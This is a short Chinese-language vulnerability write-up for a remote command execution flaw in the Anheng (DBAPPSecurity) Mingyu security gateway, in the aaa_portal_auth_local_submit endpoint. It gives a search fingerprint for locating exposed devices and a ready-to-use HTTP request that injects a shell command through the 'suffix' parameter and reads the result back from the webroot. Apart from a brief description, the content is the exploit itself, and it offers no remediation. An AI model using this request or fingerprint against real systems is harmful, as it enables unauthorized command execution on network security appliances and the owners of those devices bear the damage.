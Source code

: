 # 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

## 漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

安恒 明御安全网关

## 网络测绘

```
body="/webui/images/basic/login/" && title=="明御安全网关"
```

## 漏洞复现

登录页面

![image-20230828143428738](images/image-20230828143428738.png)

验证POC

```
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix={{urlenc(`id >/usr/local/webui/test.txt`)}} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```

![image-20230828143444585](images/image-20230828143444585.png)

```
/test.txt
```

![image-20230828143501551](images/image-20230828143501551.png)